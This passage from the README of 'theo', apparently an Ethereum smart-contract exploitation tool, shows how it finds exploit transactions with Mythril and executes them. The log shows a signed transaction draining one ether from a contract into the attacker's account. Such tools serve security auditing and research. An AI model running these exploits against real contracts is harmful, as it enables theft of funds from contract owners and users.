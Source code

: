 ```console
                        False)
  --load-file LOAD_FILE
                        Load exploit from file (default: )
  --version             show program's version number and exit

RPC connections:
  --rpc-ws RPC_WS       Connect to this WebSockets RPC (default: None)
  --rpc-ipc RPC_IPC     Connect to this IPC RPC (default: None)
```

### Symbolic execution

A list of exploits is automatically identified using [mythril](https://github.com/ConsenSys/mythril).

Start a session by running:

```console
$ theo --contract=<scanned contract> --account-pk=<your private key>
Scanning for exploits in contract: 0xa586074fa4fe3e546a132a16238abe37951d41fe
Connecting to HTTP: http://127.0.0.1:8545.
Found exploits(s):
 [Exploit: (txs=[Transaction {Data: 0xcf7a8965, Value: 1000000000000000000}])]

A few objects are available in the console:
- `exploits` is an array of loaded exploits found by Mythril or read from a file
- `w3` an initialized instance of web3py for the provided HTTP RPC endpoint

Check the readme for more info:
https://github.com/cleanunicorn/theo

>>> 
```

It will analyze the contract and will find a list of available exploits.

You can see the available exploits found. In this case one exploit was found. Each exploit is an [Exploit](https://github.com/cleanunicorn/theo/blob/master/theo/exploit/exploit.py) object.

```console
>>> exploits[0]
Exploit: (txs=[Transaction: {'input': '0xcf7a8965', 'value': '0xde0b6b3a7640000'}])
```

### Running exploits

The exploit steps can be run by calling `.execute()` on the exploit object. The transactions will be signed and sent to the node you're connected to.

```console
>>> exploits[0].execute()
2019-07-22 11:26:12,196 - Sending tx: {'to': '0xA586074FA4Fe3E546A132a16238abe37951D41fE', 'gasPrice': 1, 'gas': 30521, 'value': 1000000000000000000, 'data': '0xcf7a8965', 'nonce': 47} 
2019-07-22 11:26:12,200 - Waiting for 0x41b489c78f654cab0b0451fc573010ddb20ee6437cdbf5098b6b03ee1936c33c to be mined... 
2019-07-22 11:26:16,337 - Mined 
2019-07-22 11:26:16,341 - Initial balance:      1155999450759997797167 (1156.00 ether) 
2019-07-22 11:26:16,342 - Final balance:        1156999450759997768901 (1157.00 ether) 
```
